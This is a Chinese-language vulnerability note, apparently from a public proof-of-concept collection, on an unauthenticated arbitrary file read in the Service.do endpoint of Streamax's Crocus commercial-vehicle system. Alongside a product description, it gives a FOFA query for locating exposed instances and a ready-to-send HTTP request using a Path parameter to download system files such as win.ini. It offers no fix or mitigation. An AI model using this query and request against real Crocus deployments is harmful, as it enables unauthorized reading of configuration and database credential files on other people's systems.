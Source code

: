 # 深圳市锐明技术股份有限公司Crocus系统Service.do任意文件读取漏洞

# 一、漏洞简介
锐明技术作为一家专注于AI和视频技术的商用车智能物联（AIoT）解决方案提供商，Crocus系统是其核心产品之一。Crocus系统旨在利用人工智能、高清视频、大数据和自动驾驶技术，帮助商用车减少交通事故和货物丢失，提高企业或车队的运营效率。通过车载摄像头、毫米波雷达等传感器，实现对车辆周围环境的实时感知和监控，提高驾驶安全性。利用AI技术，系统能够识别车辆和行人的身份，并分析驾驶员的驾驶行为，及时提醒驾驶员注意潜在风险。Crocus系统能够实时监控货箱状态，包括货物是否丢失、货箱是否关闭等，并通过3D检测技术实现更精准的货物识别和管理。锐明技术Crocus系统 Service.do接口存在任意文件读取漏洞，未经过身份验证的远程攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 二、影响版本
+ Crocus系统

# 三、资产测绘
+ fofa`body="/ThirdResource/respond/respond.min.js" && title="Crocus"`
+ 特征

![1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149.png](./img/5AiGbcw52EzAXtrg/1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149-759009.png)

# 四、漏洞复现
```http
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: 
Accept-Encoding:gzip,deflate,br
Accept:*/*
Accept-Language:en-US;q=0.9,en;q=0.8
User-Agent:Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/124.0.6367.118Safari/537.36
Connection:close
Cache-Control:max-age=0
```

![1720274359372-2627708f-1f2b-442d-b494-cde20eb53e86.png](./img/5AiGbcw52EzAXtrg/1720274359372-2627708f-1f2b-442d-b494-cde20eb53e86-480553.png)



> 更新: 2024-07-20 20:13:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kgxxkp7cach713ge>